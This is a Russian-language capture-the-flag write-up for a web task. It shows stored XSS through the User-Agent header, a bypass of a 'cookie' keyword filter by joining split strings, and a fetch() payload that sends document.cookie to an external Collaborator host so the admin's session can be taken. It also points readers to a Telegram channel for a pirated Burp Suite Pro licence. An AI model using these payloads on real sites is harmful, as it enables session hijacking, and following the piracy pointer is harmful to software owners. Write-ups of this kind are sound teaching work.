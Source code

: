 # Gogo
**level**: **Hard**
**Description**: Воображение важнее, чем знания
**IP**: 62.173.140.174:16035

Первое что видим - форма логин/регистрации, для этого нужно получить доступ к аккаунту админа.

Изучаем html код на наличие подсказок, скрытых функций и тд.


<!-- Send Post request with parameter newpassword .... -->
Отлично, какой-то скрытый функционал, позже мы к нему вернемся.
Исследуем далее.

Попробуем XSS payload:
````javascript 
<script>alert(1)</script>
````
````XSS, или межсайтовый скриптинг, — это тип атаки на веб-приложения, при котором злоумышленник может внедрять в содержимое веб-страницы вредоносный скрипт, который будет выполняться на стороне клиента. Это может привести к краже данных, сессий или даже полному контролю над учетной записью жертвы. Рассмотрим возможные пути кражи аккаунта через XSS и методологию предотвращения таких атак.````


Но изменить имя admin на пейлоад нельзя, но не будем забывать что есть еще другие поля, которые тоже скорее всего подвержены XSS-атаке.
На поле id, username, IP, Date мы повлиять не можем, они генерируются на сервере, а вот на User-Agent запросто!

Для этого напишем скрипт на python, он нам очень пригодится в будущем.

# Проведение атаки
````python 
import requests

payload = "<script>alert(1);</script>" # это пейлоад

user = "asdf" #Тут наш username
headers = {'User-Agent': payload} # Вставляем его в хедер
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data) # Совершаем попытку логина с неверным паролем
 
print(response.status_code)# Выводим информацию
#print(response.text) 
````


Отлично, у нас получилось внедрить свой код.
### Возможные пути кражи аккаунта через XSS:

1. **Кража cookies**
    
2. **Phishing**
   
4. **Манипуляции с DOM**
    
5. **Кража токенов аутентификации**

# способ 
Для данного способа вам потребуется ```Burp Suite Pro```. Почему именно PRO?
Потому, что там есть ```Collaborator```, которого нет в бесплатной версии. 
Переходим по ссылке ``` https://t.me/pt_soft``` чтобы "КУПИТЬ" нашу лицензию.
В поиске по каналу в телеге ищем **Burpsuite**. И устанавливаем.

## Атака

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем простой alert();

````python 
import requests

payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И сталкиваемся с проблемой
Все отработало, но вот alert'a нет. А это все потому, что на Codeby.games есть похожий таск, и автор данного решил чтобы все было не так просто, применить фильтрацию на серверной части на слово ```cookie```.
Мы это тоже обойдем, нужно просто немного **подумать**.
## Обход фильтрации
Попбробуем обойти фильтрацию с помощью cookie
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests

payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}

response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
**Отлично**!
Вспоминаем зачем нам потребовался коллаборатор в бурпе.
Данное значение, которое только вывели в alert, мы будем ловить на его **сервер**.

Для понимания как это работает.

1) Переходим в вкладку
2) Копируем **url**
3) Переходим по ней в google
4) Нажимаем **Poll now**, чтобы получить с сервера данные.
5) Если окошко как на фото снизу не появляется, то нажмите на "+. Это создаст новую сессию и обновит окошко.

Мы только что поймали наш request и можем его детально рассмотреть.
Эта функция заменит нам ngrok или свой белый IP и сервер.


````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join(""); var payload = `https://{{СЮДА}}/?${vv}=` + document[vv]; fetch(payload);</script>'

user = "admin" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)

print(response.status_code)
print(response.text)
````

Отправляем, ждем, пуллим.
Подставим значение PHPSESSID в наш браузер. 
